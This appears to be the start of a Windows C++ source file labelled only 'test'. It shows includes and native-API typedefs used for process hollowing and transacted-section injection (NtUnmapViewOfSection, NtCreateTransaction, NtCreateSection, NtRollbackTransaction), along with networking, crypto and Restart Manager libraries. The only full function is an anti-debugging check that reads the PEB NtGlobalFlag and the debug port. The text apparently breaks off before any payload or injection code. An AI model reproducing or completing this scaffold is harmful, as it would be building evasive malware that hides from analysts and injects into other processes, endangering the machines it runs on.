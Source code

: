 # test
#include <windows.h>
#include <string>
#include <filesystem>
#include <tlhelp32.h>
#include <winternl.h>
#include <psapi.h>
#include <memory>
#include <vector>
#include <random>
#include <shlwapi.h>
#include <wininet.h>
#include <bcrypt.h>
#include <intrin.h>
#include <Shlwapi.h>
#include <RestartManager.h>
#include <atomic>
#include <thread>

#pragma comment(linker,"\"/manifestdependency:type='win32' \
name='Microsoft.Windows.Common-Controls' version='6.0.0.0' \
processorArchitecture='*' publicKeyToken='6595b64144ccf1df' language='*'\"")

#pragma comment(lib, "wininet.lib")
#pragma comment(lib, "shlwapi.lib")
#pragma comment(lib, "bcrypt.lib")
#pragma comment(lib, "Rstrtmgr.lib")

typedef NTSTATUS(NTAPI* pNtQueryInformationProcess)(HANDLE, PROCESSINFOCLASS, PVOID, ULONG, PULONG);
typedef NTSTATUS(NTAPI* pNtUnmapViewOfSection)(HANDLE, PVOID);
typedef NTSTATUS(NTAPI* pNtQuerySystemInformation)(SYSTEM_INFORMATION_CLASS, PVOID, ULONG, PULONG);
typedef NTSTATUS(NTAPI* pNtCreateTransaction)(PHANDLE, ACCESS_MASK, POBJECT_ATTRIBUTES, LPGUID, HANDLE, ULONG, ULONG, ULONG, PLARGE_INTEGER, PUNICODE_STRING);
typedef NTSTATUS(NTAPI* pNtCreateSection)(PHANDLE, ACCESS_MASK, POBJECT_ATTRIBUTES, PLARGE_INTEGER, ULONG, ULONG, HANDLE);
typedef NTSTATUS(NTAPI* pNtRollbackTransaction)(HANDLE, BOOLEAN);

bool IsDebuggerPresentCustom() {
    BOOL isDebuggerPresent = FALSE;
    HANDLE hProcess = GetCurrentProcess();
    CheckRemoteDebuggerPresent(hProcess, &isDebuggerPresent);
    
    PPEB pPeb = (PPEB)__readgsqword(0x60);
    DWORD64 dwNtGlobalFlag = *(PDWORD64)((PBYTE)pPeb + 0xBC);
    bool ntGlobalFlagDebugCheck = ((dwNtGlobalFlag & 0x70) != 0);
    
    BOOL isDebugPort = FALSE;
    HANDLE hDebugPort = 0;
    NtQueryInformationProcess(hProcess, ProcessDebugPort, &hDebugPort, sizeof(HANDLE), NULL);
    isDebugPort = hDebugPort != 0;
    
    return isDebuggerPresent || IsDebuggerPresent() || ntGlobalFlagDebugCheck || isDebugPort;
}
